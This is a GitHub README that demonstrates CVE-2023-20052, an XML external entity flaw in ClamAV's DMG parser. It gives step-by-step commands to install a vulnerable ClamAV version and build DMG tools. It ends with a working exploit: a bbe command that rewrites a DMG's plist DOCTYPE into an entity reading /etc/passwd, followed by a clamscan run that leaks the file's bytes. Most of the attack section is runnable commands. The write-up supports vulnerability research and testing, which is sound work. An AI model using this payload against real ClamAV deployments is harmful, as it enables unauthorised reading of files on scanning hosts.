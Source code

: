 # CVE-2023-20052 <br>
CVE-2023-20052 information leak vulnerability in the DMG file parser of ClamAV <br>
A vulnerability in the DMG file parser of ClamAV versions 1.0.0 and earlier, 0.105.1 and earlier, and 0.103.7 and earlier could allow an unauthenticated, remote attacker to access sensitive information on an affected device. This vulnerability is due to enabling XML entity substitution that may result in XML external entity injection. An attacker could exploit this vulnerability by submitting a crafted DMG file to be scanned by ClamAV on an affected device. A successful exploit could allow the attacker to leak bytes from any file that may be read by the ClamAV scanning process. <br>
 <br>
## Tested in Ubuntu 20.04 
## How to install ClamAV version 1.0.0 <br>
* https://github.com/Cisco-Talos/clamav/releases/download/clamav-1.0.0/clamav-1.0.0.linux.i686.deb <br>
* https://github.com/Cisco-Talos/clamav/releases/download/clamav-1.0.0/clamav-1.0.0.linux.x86_64.deb <br>
<br>

sudo dpkg -i package-name.deb <br>
![1](https://github.com/cY83rR0H1t/CVE-2023-20052/assets/48300212/6372f693-b4fd-4b88-869b-fa48b550b840)

* sudo apt install -f <br>
* mkdir /usr/local/share/clamav <br>
* mv /usr/local/etc/freshclam.conf.sample /usr/local/etc/freshclam.conf <br>
![2](https://github.com/cY83rR0H1t/CVE-2023-20052/assets/48300212/14e7c7e7-9260-45fb-b1bd-bd7545d77730)


* sudo adduser clamav <br>
![3](https://github.com/cY83rR0H1t/CVE-2023-20052/assets/48300212/d77b6c58-714f-4676-8776-860d7b9dd95f)


* sudo chown -R 1002:1003 /usr/local/share/clamav <br>
* sudo freshclam <br>
![4](https://github.com/cY83rR0H1t/CVE-2023-20052/assets/48300212/c3b327ce-189f-43a9-bea3-ebeee95e5995)

![5](https://github.com/cY83rR0H1t/CVE-2023-20052/assets/48300212/2f17ed8e-e968-4d21-aedb-c6b42f93e5f1)


* clamscan --version <br>
![6](https://github.com/cY83rR0H1t/CVE-2023-20052/assets/48300212/e22478aa-a7a0-46d8-8917-6ddcefa75b7a)


## Installing a few more things required for this exploit. <br>
* apt-get update
* apt-get install -y ca-certificates gnupg wget <br>
* echo "deb http://archive.debian.org/debian-security stretch/updates main" >> /etc/apt/sources.list <br>
* wget -q -O - https://ftp-master.debian.org/keys/archive-key-9-security.asc | apt-key add - <br>
* apt-get update -y <br>
* sudo apt install -y libssl1.0-dev gcc g++ cmake zlib1g-dev genisoimage bbe git hfsplus <br>
![7](https://github.com/cY83rR0H1t/CVE-2023-20052/assets/48300212/d101f89d-8ef5-483d-b18c-501d355ff4e6)


* git clone https://github.com/planetbeing/libdmg-hfsplus.git <br>
![8](https://github.com/cY83rR0H1t/CVE-2023-20052/assets/48300212/8a41e9a3-754e-4c3a-a998-1737494acfe2)

* cd /libdmg-hfsplus <br>
* cmake . <br>
![9](https://github.com/cY83rR0H1t/CVE-2023-20052/assets/48300212/39e42016-5bbe-41e6-98b7-80d5e3e3e0a3)

* make <br>
![10](https://github.com/cY83rR0H1t/CVE-2023-20052/assets/48300212/0cbb4282-16f8-4917-ac2c-9d4bb9514d00)

* cp dmg/dmg /bin <br>
``sudo genisoimage -D -V "exploit" -no-pad -r -apple -file-mode 0777 -o test.img . && dmg dmg test.img test.dmg`` <br>
![11](https://github.com/cY83rR0H1t/CVE-2023-20052/assets/48300212/c95eae54-0c1c-4239-889e-2cfae988a5f1)

``bbe -e 's|<!DOCTYPE plist PUBLIC "-//Apple Computer//DTD PLIST 1.0//EN" "http://www.apple.com/DTDs/PropertyList-1.0.dtd">|<!DOCTYPE plist [<!ENTITY xxe SYSTEM "/etc/passwd"> ]>|' -e 's/blkx/&xxe\;/' test.dmg -o exploit2.dmg``
 ![12](https://github.com/cY83rR0H1t/CVE-2023-20052/assets/48300212/f99d9659-22cc-4cb4-9517-783863bd3300)

* clamscan --debug exploit2.dmg
![13](https://github.com/cY83rR0H1t/CVE-2023-20052/assets/48300212/27194b56-285c-43d1-bc88-ff8e14bfd6ba)


Reference: https://github.com/nokn0wthing/CVE-2023-20052
